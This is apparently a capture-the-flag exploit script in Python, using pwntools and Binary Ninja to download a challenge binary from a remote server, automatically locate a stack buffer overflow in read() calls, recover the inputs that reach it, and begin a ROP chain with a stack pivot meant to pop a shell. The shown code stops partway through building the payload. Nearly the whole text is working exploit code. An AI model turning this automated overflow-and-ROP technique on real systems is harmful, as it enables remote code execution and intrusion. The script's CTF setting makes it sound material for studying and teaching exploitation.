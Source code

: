 The following code pops a shell on remote.
```py
from pwn import *
from binaryninja import BinaryViewType, RegisterValueType, MediumLevelILOperation

def find_vuln(binary_path):
	bv = BinaryViewType.get_view_of_file(binary_path)
	read = bv.get_functions_by_name("read")[0]
	for ref in bv.get_code_refs(read.start):
		hlil = ref.function.get_llil_at(ref.address).hlil
		dest_buff = ref.function.get_parameter_at(ref.address,None,1)
		if dest_buff.type == RegisterValueType.StackFrameOffset:
			# buffer is on the stack
			stack_frame_size = abs(dest_buff.value)
			nbytes = ref.function.get_parameter_at(ref.address,None,2).value
			if nbytes > stack_frame_size:
				print(f"[!] Overflow at {hex(ref.address)}: {hlil}")
				print(f"\tBuffer size: {stack_frame_size}\n\tRead Size: {nbytes}")
				return bv,stack_frame_size, ref.address

def get_inputs(bv,vuln_address,inputs):
	func = bv.get_functions_containing(vuln_address)[0]
	ref = next(bv.get_code_refs(func.start))
	mlil_index = ref.function.get_llil_at(ref.address).mlil.instr_index
	for mlil_instruction in ref.function.mlil_instructions:
		if mlil_instruction.operation == MediumLevelILOperation.MLIL_IF:
			if mlil_index == mlil_instruction.false:
				param = mlil_instruction.hlil.operands[0].operands[0].params[0]
				addr = bv.reader().read32(param.operands[0].constant)
				data_string = bv.get_ascii_string_at(addr,min_length=3).value.encode()
			else:
				data_string = b"g"
			inputs.append(data_string)
			return get_inputs(bv,ref.address,inputs)

io = remote("ctf.battelle.org", 30042)
[io.readline() for _ in range(5)]
binary = io.readuntil(b"********************************",drop=True)
with open("binary","wb") as f:
	f.write(binary)

bv,size,vuln_address = find_vuln("./binary")
inputs = []
get_inputs(bv,vuln_address,inputs)
inputs = inputs[::-1]
print("[!] Inputs required: ",inputs)

context.binary = elf = ELF("./binary")
# io = elf.process()
# gdb.attach(io)

for inpt in inputs:
	io.sendline(inpt)
	io.clean()

rop = ROP(elf)
leave_ret = rop.find_gadget(['leave','ret'])[0]
read = elf.plt['read']
add_eax = bv.find_next_data(bv.start,b"\x03\x02\x7a")
jmp_eax = bv.find_next_data(bv.start,b"\xff\xe0")
pop_3 = rop.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]

# pivot to bss
payload = b"A"*(size-4)
```